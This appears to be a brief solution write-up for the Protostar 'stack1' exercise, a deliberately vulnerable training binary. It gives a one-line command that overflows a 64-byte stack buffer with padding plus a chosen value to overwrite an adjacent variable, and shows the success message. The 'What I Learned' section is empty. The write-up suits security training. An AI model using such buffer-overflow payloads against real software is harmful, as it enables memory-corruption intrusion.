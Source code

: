 # Link
https://exploit-exercises.com/protostar/stack1/

# Solution
user@protostar:/opt/protostar/bin$ ./stack1 `python -c 'print "a"*64+"\x64\x63\x62\x61"'`

you have correctly got the variable to the right value

# What I Learned
